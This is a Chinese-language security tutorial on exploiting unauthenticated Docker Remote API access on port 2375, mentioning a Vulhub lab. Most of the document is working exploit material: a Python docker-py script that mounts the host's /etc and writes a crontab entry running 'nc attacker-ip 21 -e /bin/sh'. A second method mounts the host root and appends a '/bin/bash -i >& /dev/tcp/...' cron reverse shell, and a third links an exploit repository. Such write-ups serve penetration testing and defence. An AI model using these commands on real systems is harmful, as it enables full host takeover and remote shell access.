

# Docker Remote API 未授权访问

由于"纵深防御" 和 "最小权限"等理念和原则落地，越来越难以直接利用漏洞来进行利用。另一方面，公开的漏洞，安全运维人员能够及时将其修复，当然，不免存在漏网之鱼。相反，更多的是利用错误的、危险的配置来进行利用，不仅仅Docker逃逸，其他漏洞也是，比如生产环境开启Debug模式导致漏洞利用等等。

> Docker已经将容器运行时的Capabilities黑名单机制改为如今的默认禁止所有Capabilities，再以白名单方式赋予容器运行所需的最小权限

## Docker Remote API 未授权访问

**漏洞简述：**

docker remote api可以执行docker命令，docker守护进程监听在0.0.0.0，可直接调用API来操作docker。

通过docker daemon api 执行docker命令：

```bash
#列出容器信息，效果与docker ps一致。
curl http://<target>:2375/containers/json
#启动容器
docker -H tcp://<target>:2375 ps -a
```

**利用场景：**

通过对宿主机端口扫描，发现有2375端口开放，可以执行任意docker命令。我们可以据此，在宿主机上运行一个容器，然后将宿主机的根目录挂载至docker的/mnt目录下，便可以在容器中任意读写宿主机的文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

**漏洞利用：**

Vulhub提供了该漏洞的复现环境。



- 利用方法1

利用方法是，我们随意启动一个容器，并将宿主机的/etc目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

这里有一个现成的exp:

```bash
import docker
client = docker.DockerClient(base_url='http://victim-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc attacker-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

(其他反弹shell的形式也一样)

- 利用方法2


随便启动一个docker,挂载点设置为服务器的根目录挂载至/mnt目录下。

```bash
sudo docker -H tcp://203.0.113.1:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

在容器内执行命令，将反弹shell的脚本写入到/var/spool/cron/root

```
echo '* * * * * /bin/bash -i >& /dev/tcp/203.0.113.1/12345 0>&1' >> /mnt/var/spool/cron/crontabs/root
```

本地监听端口，获取对方宿主机shell。

- 利用方法3

Github上的exp：<https://github.com/Tycx2ry/docker_api_vul>
